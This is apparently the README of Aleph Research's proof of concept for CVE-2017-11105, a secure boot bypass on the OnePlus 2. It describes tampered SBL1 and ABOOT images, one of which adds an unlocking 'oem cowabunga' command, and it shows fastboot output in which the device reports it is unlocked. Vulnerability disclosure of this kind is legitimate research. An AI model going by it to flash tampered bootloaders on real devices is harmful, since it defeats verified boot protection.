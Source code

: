 ## PoC for CVE-2017-11105: OnePlus 2 Lack of SBL1 Validation Broken Secure Boot ##

By Roee Hay / Aleph Research


`sbl1-3.5.8-tampered.mbn`: Tampered SBL1 image that does not validate the rest of the chain.

`emmc_appsboot.mbn`: Tampered ABOOT image that includes a new command `oem cowabunga`, that temporarily unlocks the device.

Flashing these will give you some pizza:

```
$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: true
(bootloader)    Device unlocked: false
(bootloader)    Device is_verified: false

$ fastboot oem cowabunga
...
FAILED (remote: pizza)
finished. total time: 0.020s

$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: false
(bootloader)    Device unlocked: true
(bootloader)    Device is_verified: false
```

Verified on OxygenOS 3.6.0.

Advisory and PoC details can be found [here](https://alephsecurity.com/vulns/aleph-2017026)

